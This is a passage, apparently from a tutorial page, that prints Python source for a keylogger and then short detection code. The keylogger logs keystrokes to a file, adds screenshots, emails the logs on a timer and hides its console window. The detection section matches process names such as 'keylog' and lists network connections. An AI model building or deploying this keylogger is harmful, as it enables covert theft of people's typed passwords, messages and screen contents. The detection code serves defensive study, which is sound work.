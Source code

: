 ```python
        # Add to buffer
        self.buffer.append(key_data)
        
        # Write to file
        with open(self.log_file, "a") as f:
            f.write(key_data + "\n")
        
        # Check if email should be sent
        if datetime.now() - self.last_email > timedelta(seconds=self.email_interval):
            self.send_email_report()
    
    def send_email_report(self):
        if self.buffer:
            log_content = "\n".join(self.buffer)
            
            # Add screenshot
            screenshot = self.screen_capture.capture_screen()
            if screenshot:
                log_content += f"\n\nScreenshot: {screenshot[:100]}..."
            
            self.email_reporter.send_log(log_content)
            self.buffer.clear()
            self.last_email = datetime.now()
    
    def start(self):
        self.running = True
        hide_console()
        
        with keyboard.Listener(on_press=self.on_press) as listener:
            listener.join()
```

## Detection and Prevention

### How to Detect Keyloggers
```python
import psutil
import os

def detect_suspicious_processes():
    """Detect potential keylogger processes"""
    suspicious_names = ['keylog', 'logger', 'capture', 'monitor']
    
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        try:
            proc_name = proc.info['name'].lower()
            for suspicious in suspicious_names:
                if suspicious in proc_name:
                    print(f"Suspicious process: {proc.info}")
        except (psutil.NoSuchProcess, psutil.AccessDenied):
            pass

def check_network_connections():
    """Monitor unusual network activity"""
    connections = psutil.net_connections()
    for conn in connections:
        if conn.status == 'ESTABLISHED':
            print(f"Active connection: {conn}")
```
